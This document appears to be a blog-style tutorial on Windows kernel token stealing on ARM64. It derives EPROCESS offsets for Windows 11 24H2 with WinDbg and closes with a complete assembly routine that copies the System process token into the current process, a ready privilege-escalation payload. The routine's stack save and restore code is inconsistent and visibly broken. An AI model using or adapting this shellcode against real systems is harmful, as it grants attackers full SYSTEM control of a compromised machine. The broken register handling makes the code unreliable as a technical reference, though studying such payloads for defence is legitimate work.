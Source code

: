 # Understanding Token Stealing in Windows Kernel: An ARM64 Assembly (Shallow) Dive

Token stealing is a common windows kernel shellcode technique. Today, we'll analyze an ARM64 assembly implementation that demonstrates this technique. This is for educational purposes only, and is intended to demonstrate how token stealing can be reimplemented on other architectures.

## The Code Structure

Let's break down the key components:

### Determining Kernel Offsets

Using a WinDBG kernel debugging session, we can determine the offsets for the following structures:

```armasm
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token
```

The KTHREAD and EPROCESS offset can be obtained by disassembling `nt!PsGetCurrentProcess`.

```armasm
0: kd> uf nt!PsGetCurrentProcess
nt!PsGetCurrentProcess:
fffff803`dfee6b70 f944c648 ldr         x8,[xpr,#0x988]
fffff803`dfee6b74 f9405900 ldr         x0,[x8,#0xB0]
fffff803`dfee6b78 d65f03c0 ret
```

The `xpr` register is an alias for `x18`, a platform specific register which points to KPCR in kernel mode as per https://learn.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=msvc-170.

The ACTIVEPROCESSLINKS offset is obtained by examining the EPROCESS structure.

```armasm
0: kd> !process 4 0
Searching for Process with Cid == 4
PROCESS ffffe609926a5080
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 400aa000  ObjectTable: ffffd30c54229c80  HandleCount: 2819.
    Image: System

0: kd> dt nt!_EPROCESS ffffe609926a5080 ActiveProcessLinks
   +0x1c8 ActiveProcessLinks : _LIST_ENTRY [ 0xffffe609`92721248 - 0xfffff803`e09786c0 ]
```

The same process can be used to determine the PID_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 UniqueProcessId
   +0x1c0 UniqueProcessId  : 0x00000000`00000004 Void
```
and TOKEN_OFFSET,

```armasm
0: kd> dt nt!_EPROCESS ffffe609926a5080 Token
   +0x238 Token              : _EX_FAST_REF
```

## The Token Stealing Process

### 1. Register Preservation
The code begins by saving the `x0` and `x1` registers to the stack, since we'll be using them later:
```armasm
stp x0, x1, [sp, #-0x20]
stp x2, x3, [sp, #-0x10]
```

### 2. Locating Current Process
```armasm
ldr x0, [xpr, #0x988]    ; Get KTHREAD
ldr x0, [x0, #0xB0]      ; Get EPROCESS
```

This sequence retrieves the current process's EPROCESS structure into `x0`.

### 3. Finding System Process
The code then enters a loop to traverse the process list until it finds the System process (PID 4):
```armasm
find_system:
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system
```

### 4. Token Swapping
Once the System process is found, its token is copied to our current process:
```armasm
ldr x2, [x0, TOKEN_OFFSET]    ; Get System token
str x2, [x1, TOKEN_OFFSET]    ; Set token in our process
```


## Technical Notes

- The code uses ARM64's `stp`/`ldp` instructions for efficient register pairs handling
- The implementation assumes specific Windows kernel structure layouts (Windows 11 24H2)

## The Code

Below is the ARM64 assembly code for the token stealing process in armasm64 syntax.

```armasm
; Constants for Windows kernel offsets
KTHREAD_OFFSET     EQU 0x988    ; Offset to current KTHREAD
EPROCESS_OFFSET    EQU 0x0B0    ; Offset to EPROCESS
ACTIVEPROCESSLINKS EQU 0x1C8    ; Offset to ActiveProcessLinks
PID_OFFSET         EQU 0x1C0    ; Offset to process ID
TOKEN_OFFSET       EQU 0x238    ; Offset to process token

    AREA |.text|,CODE,READONLY
    ALIGN

token_stealing PROC
    ; Save registers
    stp x0, x1, [sp, #-0x20]
    stp x2, x3, [sp, #-0x10]

    ldr x0, [xpr, #0x988]
    ldr x0, [x0, #0xB0]

    mov x1, x0                    ; Save current EPROCESS in x1

    ; System process PID (4)
    mov x2, #4

find_system
    ; Get next process
    add x0, x0, ACTIVEPROCESSLINKS
    ldr x0, [x0]
    sub x0, x0, ACTIVEPROCESSLINKS    ; Adjust to get EPROCESS base

    ; Compare PID
    ldr w3, [x0, PID_OFFSET]
    cmp w3, w2
    b.ne find_system

    ; Found System process, copy token
    ldr x2, [x0, TOKEN_OFFSET]        ; Get System token
    str x2, [x1, TOKEN_OFFSET]        ; Set token in our process

    ; Restore registers
    ldp x0, x1, [sp, #0x0]
    ldp x2, x3, [sp, #0x10]
    ldp fp,lr,[sp],#0x0
    add sp, sp, #0x30
    ret
    ENDP

    END

```

## Conclusion

This post describes how token stealing can be implemented, and derived, on ARM64, and can serve as a reference on how to implement token stealing on other architectures.

The offsets used in this code are specific to Windows 11 24H2, and may need to be adjusted for other versions of Windows.
